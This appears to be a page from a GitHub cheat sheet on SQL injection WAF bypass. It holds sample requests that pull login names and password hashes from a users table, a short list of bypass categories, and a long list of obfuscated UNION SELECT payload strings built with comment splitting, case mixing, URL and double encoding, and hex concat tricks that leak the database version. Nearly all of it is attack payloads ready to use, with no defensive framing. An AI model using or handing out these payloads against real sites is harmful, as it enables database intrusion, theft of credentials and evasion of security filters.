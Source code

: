 <b>An example of signature bypass.</b>
The following request gets to WAF signature
/?id=1+union+(select+1,2+from+users) But sometimes, the signatures used
can be bypassed
/?id=1+union+(select+'xz'from+xxx)

`/?id=(1)union(select(1),mid(hash,1,32)from(users))`
`/?id=1+union+(select'1',concat(login,hash)from+users)`
`/?id=(1)union(((((((select(1),hex(hash)from(users))))))))`
`/?id=(1)or(0x50=0x50)`


<b>An SQL Injection attack can successfully bypass the WAF , and be
conducted in all following cases:</b>
• Vulnerabilities in the functions of WAF request normalization.
• Application of HPP and HPF techniques.
• Bypassing filter rules (signatures).
• Vulnerability exploitation by the method of blind SQL Injection.
• Attacking the application operating logics (and/or)

<b>WAF Bypassing Strings.</b>

` /*!%55NiOn*/ /*!%53eLEct*/`
`  %55nion(%53elect 1,2,3)-- -`
`  +union+distinct+select+`
`  +union+distinctROW+select+`
`  /**//*!12345UNION SELECT*//**/`
`  concat(0x223e,@@version)`
`  concat(0x273e27,version(),0x3c212d2d)`
`  concat(0x223e3c62723e,version(),0x3c696d67207372633d22)`
`  concat(0x223e,@@version,0x3c696d67207372633d22)`
`  concat(0x223e,0x3c62723e3c62723e3c62723e,@@version,0x3c696d67207372633d22,0x3c62​723e)`
`  concat(0x223e3c62723e,@@version,0x3a,”BlackRose”,0x3c696d67207372633d22)`
`  concat(‘’,@@version,’’)`
`  /**//*!50000UNION SELECT*//**/`
`  /**/UNION/**//*!50000SELECT*//**/`
`  /*!50000UniON SeLeCt*/`
`  union /*!50000%53elect*/`
`  +#uNiOn+#sEleCt`
`  +#1q%0AuNiOn all#qa%0A#%0AsEleCt`
`  /*!%55NiOn*/ /*!%53eLEct*/`
`  /*!u%6eion*/ /*!se%6cect*/`
`  +un/**/ion+se/**/lect`
`  uni%0bon+se%0blect`
`  %2f**%2funion%2f**%2fselect`
`  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A`
`  REVERSE(noinu)+REVERSE(tceles)`
`  /*--*/union/*--*/select/*--*/`
`  union (/*!/**/ SeleCT */ 1,2,3)`
`  /*!union*/+/*!select*/`
`  union+/*!select*/`
`  /**/union/**/select/**/`
`  /**/uNIon/**/sEleCt/**/`
`  /**//*!union*//**//*!select*//**/`
`  /*!uNIOn*/ /*!SelECt*/`
`  +union+distinct+select+`
`  +union+distinctROW+select+`
`  +UnIOn%0d%0aSeleCt%0d%0a`
`  UNION/*&test=1*/SELECT/*&pwn=2*/`
`  un?+un/**/ion+se/**/lect+`
`  +UNunionION+SEselectLECT+`
`  +uni%0bon+se%0blect+`
`  %252f%252a*/union%252f%252a /select%252f%252a*/`
`  /%2A%2A/union/%2A%2A/select/%2A%2A/`
`  %2f**%2funion%2f**%2fselect%2f**%2f`
`  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A`